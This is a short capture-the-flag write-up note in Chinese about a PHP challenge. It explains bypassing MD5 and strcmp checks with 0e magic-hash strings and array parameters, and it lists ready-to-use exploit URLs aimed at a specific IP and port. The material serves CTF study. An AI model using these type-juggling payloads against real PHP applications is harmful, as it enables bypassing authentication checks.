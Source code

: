 ```php
        if(!strcmp($v3, $flag)){
            echo $flag;
        }
    }
}
?>
```
要求v1和v2不同 但是md5相同
v3和flag值相同
v1和v2 MD5通过科学计数法或者数组
http://114.67.175.224:16663/index.php/?v1=s1885207154a&v2=s1091221200a&v3[]=xxxx
http://114.67.175.224:16663/index.php/?v1[]=adadadsa&v2[]=adasdas&v3[]=xxxx
http://114.67.175.224:16663/index.php/?v1[]=123&v2[]=231&v3[]=xxxx
v3通过数组报错完成


# 23//#### MD5
#MD5弱比较 
[md5 collision（md5碰撞）_md5 collision qnkcdzo-CSDN博客](https://blog.csdn.net/qq_38603541/article/details/97125995)
[常见的MD5碰撞：md5值为0e开头_md5 0e开头-CSDN博客](https://blog.csdn.net/qq_38603541/article/details/97108663)
![](图片/Pasted%20image%2020241126194900.png)
